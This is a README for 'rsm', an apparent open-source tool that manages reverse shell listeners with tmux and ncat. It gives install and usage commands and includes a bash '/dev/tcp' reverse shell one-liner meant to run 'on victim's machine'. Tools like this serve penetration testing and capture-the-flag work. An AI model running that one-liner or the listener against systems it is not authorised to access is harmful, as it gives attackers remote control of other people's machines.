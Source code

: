 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Quick Start

Listening on a port

```shell
git clone https://github.com/djosix/rsm.git
cd rsm

./rsm 11111
# You will attach to a tmux session called 'rsm-11111',
# where 11111 is your listening port.
```

On victim's machine, launch a reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/11111 0<&1'
# Once connected to the listening port,
# the script will create a window in our tmux session.
# Just switch to that window and interact with the client.
```

Attaching to the last rsm session

```shell
./rsm attach
```

Stop the server and cleanup

```shell
./rsm stop
# Stop all rsm listeners
```

## Install

```shell
git clone --depth 1 https://github.com/djosix/rsm.git ~/.rsm
# Then add $HOME/.rsm to your PATH
```

## Usage

```shell
$ rsm help
Usage: rsm <COMMAND> [OPTIONS...]

    rsm <PORT>          Start a reverse shell listener on PORT
    rsm list            List active rsm listeners
    rsm info <PORT>     Show details of listener on PORT
    rsm info            Show details of all rsm listeners
    rsm stop <PORT>     Stop a rsm listener on PORT
    rsm stop            Stop all rsm listeners
    rsm attach <PORT>   Attach to a rsm session listening on PORT
    rsm attach          Attach to the last rsm session
    rsm clean <PORT>    Clean sockets for PORT
    rsm clean           Clean all sockets
    rsm help            Show this help message
```
